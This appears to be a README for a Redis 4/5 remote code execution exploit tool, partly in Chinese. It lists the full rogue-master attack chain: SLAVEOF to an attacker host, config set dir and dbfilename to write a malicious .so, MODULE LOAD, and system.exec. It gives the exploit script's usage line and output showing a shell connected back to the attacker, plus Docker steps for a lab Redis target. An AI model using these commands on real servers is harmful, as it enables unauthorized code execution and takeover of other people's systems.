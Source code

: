 # Redis-RCE
### remote code execute for redis4 and redis5


#### python code from https://github.com/Ridter/redis-rce

![](./redis-rce.jpg)
#####  通过加载so文件，扩展新命令system.exec进行 命令执行成功
`strings exp_lin.so |grep sys`

```
system
system.exec
sys_errlist.h
sys_nerr
sys_errlist
_sys_siglist

```

![](./redis-exec.jpg)
![](./redis-exec-result.jpg)

### system.exec
![](./redis-system-exec.jpg)

```
0x01 SLAVEOF 192.168.2.18 8989

0x02 config set dir /tmp

0x03 config set dbfilename exp_lin.so

0x04 MODULE LOAD /tmp/exp_lin.so

0x05 slaveof no one

0x06 system.exec id

���Auid=100(redis) gid=101(redis) groups=101(redis),101(redis)

```
### Usage:

`python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so`

```
python redis-rce.py -r 10.10.20.166 -p 6379 -L 192.168.2.18 -f exp_lin.so
test
[*] Connecting to  10.10.20.166:6379...
[*] Listening on 192.168.2.18:21000
[*] Sending SLAVEOF command to server
Accepted connection from 192.168.2.18:3147
[*] Setting filename
[*] Tring to run payload
Accepted connection from 192.168.2.18:21000
[*] Closing rogue server...
Received backconnect, use exit to exit...
$

$ id
uid=100(redis) gid=101(redis) groups=101(redis),101(redis)
$ pwd
/tmp
$ ls
exp_lin.so
exp_osx.so
$


```

### 0x01  docker search redis5
```
docker search redis5
NAME                          DESCRIPTION                                  STARS     OFFICIAL   AUTOMATED
hareemca123/redis5            Redis 5 Alpine                               1                    
pierreprinetti/redis5         An image for redis5 Release Candidates       0                    [OK]
kusanami/redis5.0                                                          0                    
cnbbx/redis5                  redis5                                       0                    
dragonfly201270/redis5                                                     0                    
cffycls/redis5                redis5.0.5                                   0                    
supercaracal/redis5-docker    Redis 5 Container                            0                    [OK]
i3clogic/redis5                                                            0                    
netborg/redis5                Redis 5 for Kubernetes cluster               0                    
libincex/redis5               redis 5.0.3                                  0                    
debbiswal/redis5.0.4_ms_k8s                                                0                    
vadosl/redis5                                                              0                    
arthurepp/redis50m30c5db                                                   0                    
i3clogic/redis5-server                                                     0                    
arthurepp/redis5m3c1db                                                     0                    
rarfaoui/redis5                                                            0                    
damonevking/redis5.0          redis5.0基础镜像                                 0                    
zareefza/redis5                                                            0                    
rajesh6752/redis5                                                          0                    
douyu/redis504                                                             0                    
redis5/tomcat8-mohjen                                                      0                    
redis5/docker-kubernetes                                                   0                    
incu6us/redis5                Redis 5 (beta) to play with a new features   0                    [OK]
yimiding/redis5.05                                                         0                    
jeetkn/centos_redis           centos7 + redis5.0.3+ ReJson + rediSearch    0   
```
### 0x02 docker pull redis5
```
docker pull hareemca123/redis5:alpine
alpine: Pulling from hareemca123/redis5
4fe2ade4980c: Pull complete 
47fa4eeb2853: Pull complete 
4e971ebf579e: Pull complete 
e2187b6a3d91: Pull complete 
b944fad88755: Pull complete 
9b71ca914208: Pull complete 
Digest: sha256:60f6a913f606341be11686f604ef97d79be32d6ee22f5036ea592423e0950ca4
Status: Downloaded newer image for hareemca123/redis5:alpine

```
### 0x03 Start redis5 docker
```
docker run --name redis5 -d -v $PWD:/data --restart=always -p 6379:6379 hareemca123/redis5:alpine

cf1e25077f6e5f88e6ba6a5ae4bcc17e38c27a28961f52932ad7c77c3fc446d9
```


### 0x04 git clone github.com/Ridter/redis-rce


```
redis-rce# ls
exp_lin.so  exp_osx.so  README.md  redis-rce.py
```
### 参考链接：

https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf

https://github.com/Ridter
